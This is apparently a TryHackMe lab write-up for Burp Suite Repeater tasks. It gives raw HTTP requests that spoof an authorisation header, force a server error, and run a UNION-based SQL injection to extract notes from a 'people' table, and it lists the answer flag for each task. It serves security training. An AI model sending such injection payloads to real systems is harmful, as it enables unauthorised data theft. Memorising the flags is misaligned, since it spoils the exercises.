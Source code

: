 Task 6 -  Practical Example 


Using Inspector (or manually, if you prefer), add a header called FlagAuthorised and set it to have a value of True. e.g.:

GET / HTTP/1.1
Host: 10.10.182.165
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
FlagAuthorised: True

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 23 May 2022 06:23:42 GMT
Content-Type: text/plain
Content-Length: 37
Connection: close
Front-End-Https: on

Send the request. What is the flag you receive?
THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}

Task 7 - Practical Challenge 

See if you can get the server to error out with a "500 Internal Server Error" code by changing the number at the end of the request to extreme inputs.

GET /products/-1 HTTP/1.1
Host: 10.10.182.165
Accept-Encoding: gzip, deflate
Accept: 
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close



What is the flag you receive when you cause a 500 error in the endpoint?
THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl}


Task 8 - SQLi with Repeater 

GET /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1 HTTP/1.1
Host: 10.10.182.165
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.182.165/about/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

Flag 
About | THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh} None




